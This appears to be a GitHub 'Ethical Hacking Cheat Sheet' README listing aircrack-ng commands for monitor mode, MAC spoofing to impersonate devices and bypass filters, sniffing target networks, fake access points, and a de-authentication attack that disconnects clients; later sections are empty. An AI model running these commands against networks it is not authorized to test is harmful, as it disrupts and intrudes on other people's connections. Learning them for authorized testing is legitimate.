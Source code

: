 # Ethical Hacking Cheat Sheet
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
{ Monitor Mode, packet injection } mode Here my network interface name is { wlan1 }, use these commands 

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Changing MAC Address](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#changing-mac-address)
- [Network Hacking](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-hacking)
    * [1. Pre-Connection Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#1-pre-connection-attack-1)
    * [2. Ganing Access](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#2-gaining-access)
    * [3. Post-Connection Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#3-post-connection-attack)




---
## Network Manager Commands
 Kill Network Manager
```
airmon-ng check kill
```
 Enable Network Manager
```
service NetworkManager start
```
 Restart Network Manager
```
systemctl restart NetworkManager
```
 Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
 Enable Monitor Mode
<details>
    <summary>Why we need to enable monitor mode ?</summary>
we want is to be able to capture all the packets
that are within our range,
even if they are sent to the router
and even if they are sent to another device.
So to do this, we need to set our network adapter to the mode
</details>

```
airmon-ng start wlan1
```
 Disable Monitor Mode
```
airmon-ng stop wlan1
```
 Packet Injection test
```
aireplay-ng --test wlan1
```
 Access Point Creation Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
# Network Hacking

### [1. Pre-Connection Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#1-pre-connection-attack-1)
### [2. Ganing Access](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#2-gaining-access)
### [3. Post-Connection Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#3-post-connection-attack)
&nbsp;
<details>
    <summary>What is MAC Address ?</summary>
MAC address stands for Media Access Control,
it's a permanent, physical, and unique address
assigned to network interfaces
by the device manufacturer.
So whether you have a wireless card,
or a wired, or Ethernet card,
each one of these network cards
come with a specific address that is unique to this card.
So there is no two devices in the world
that would have the same MAC address.
And this address will always be the same
to this specific device,
even if you unplug it from your computer,
connect it to another computer,
then this network device will always have the same address.
So you might already know that the IP address
is used in the internet to identify computers,
and communicate between devices on the internet.
The MAC address is used within the network
to identify devices and transfer data between devices.
So each piece of data or packet
that is sent within the network
contains a source MAC and a destination MAC.
Therefore, this packet would flow
from the source MAC to the destination MAC.
So because this is a physical unique address
to each interface, to each network device,
and because it is used to identify devices,
then changing it will make you anonymous on the network.
Not only that, but the MAC address is often used
by filters to prevent or allow devices
to connect to networks,
and do specific tasks on the network.
So being able to change your MAC address
to another device's MAC address
will allow you to impersonate this device
and allow you to do things
that you might not be able to do.
So you'd be able to bypass filters,
or connect to networks that only specific devices
with specific MAC addresses can connect to,
and you will also be able to hide your identity.
</details>

 Changing MAC Address
1. step
```
ifconfig
```
2. step
```
ifconfig wlan1 down
```
3. step ( you can assign any MAC Address, just make sure your address starts with 00 ) 
```
ifconfig wlan1 ether 00:11:22:33:44:55
```
4. step
```
ifconfig wlan1 up
```

the MAC address will revert back
to the original one once you restart the computer,
because we're only changing the MAC address in memory,
we're not really changing the physical MAC address.

```
ifconfig wlan1 down
ifconfig wlan1 ether 00:11:22:33:44:55
ifconfig wlan1 up
```
---
# 1. Pre-Connection Attack
## Packet Sniffing
<details>
    <summary>What is Packet Sniffing ?</summary>
Now that we have enabled monitor mode
on our wireless interface,
we are able to capture all the wifi packets
sent within our range,
even if the packet is not directed to our computer,
even if we're not connected to the target network,
and even without knowing the key
or the password to the target network.
So all we need right now is a program
that can capture these packets for us.
The program that we're going to use is called { airodump-ng }.
It's part of the a { aircrack-ng } suit,
and it's a packet-sniffer,
so it's basically a program designed
to capture packets while you're in monitor mode.
So it will allow us to see
all the wireless networks around us,
and show us detailed information about it's MAC address,
it's channel, it's encryption,
the clients connected to this network, and so on.
</details>

 Sniff Network around `2.4 GHz`
```
airodump-ng wlan1
```
 Sniff Network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
 Capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
 Capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

 Open wireshark application to read captured data, captured in `test.cap`, 
```
wireshark
```
&nbsp;
## DE-Authentication Attack 
<details>
    <summary>What is de-authentication attack ?</summary>
This attack allow us to disconnect any device,
from any network, before connecting to any of these networks
and without the need to know the password for the network.
To do this, we're going to pretend to be the client
that we want to disconnect, by changing our MAC address
to the MAC address of that client, and tell the router
that I want to disconnect from you.
Then, we're going to pretend to be the router, again,
by changing our MAC address to the router's MAC address
and tell the client that you're requested
to be disconnected, so I'm going to disconnect you.
This will allow us to successfully disconnect,
or de-authenticate any client from any network.
Now, we're actually not going to do this manually,
we're gonna use a tool called { aireplay-ng }to do that.
</details>

```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client



if it`s fails then, target router on specfic channel
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number

---

# 2. Gaining Access
























# 3. Post-Connection Attack









<details>
    <summary></summary>

</details>

# ===}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)